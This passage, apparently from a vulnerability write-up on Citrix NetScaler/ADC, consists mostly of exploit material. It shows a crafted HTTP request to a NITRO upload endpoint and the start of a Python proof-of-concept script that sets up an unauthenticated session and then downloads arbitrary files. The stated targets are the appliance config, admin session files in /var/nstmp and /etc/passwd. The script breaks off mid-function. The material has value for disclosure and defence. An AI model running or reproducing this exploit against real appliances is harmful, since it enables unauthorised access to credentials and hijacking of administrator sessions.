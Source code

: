 ```http
X-NITRO-PASS: henk
Connection: close
Cookie: startupapp=neo; is_cisco_platform=0; st_splitter=350px; SESSID=05afba59ef8e0e35933f3bc266941337; rdx_pagination_size=25%20Per%20Page
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

object={"uploadtext":{"filedir":false,"filedata":"data","filename":"/var/tmp/new_directory/this_will_be_removed"}}
```

### Read files
And finally, the ultimate goal, a PoC script to download random files from the Netscaler / ADC, without authentication. This includes things like

- the config file
- admin sessions in /var/nstmp (all files are shown if you query the directory)

```python
#!/usr/bin/env python

import requests
import sys
import string
import random
import json
from urllib.parse import quote

# Slashes need to be urlencoded
PAYLOAD='%2fetc%2fpasswd'

requests.packages.urllib3.disable_warnings()

def random_string(length=8):
	chars = string.ascii_letters + string.digits
	random_string = ''.join(random.choice(chars) for x in range(length))
	return random_string

def create_session(base_url, session):
	url = '{0}/pcidss/report'.format(base_url)

	params = {
		'type':'allprofiles',
		'sid':'loginchallengeresponse1requestbody',
		'username':'nsroot',
		'set':'1'
	}

	headers = {
		'Content-Type':'application/xml',
		'X-NITRO-USER':random_string(),
		'X-NITRO-PASS':random_string(),
	}

	data = '<appfwprofile><login></login></appfwprofile>'
	
	session.post(url=url, params=params, headers=headers, data=data, verify=False)
	return session

def fix_session(base_url, session):
	url = '{0}/menu/ss'.format(base_url)

	params = {
```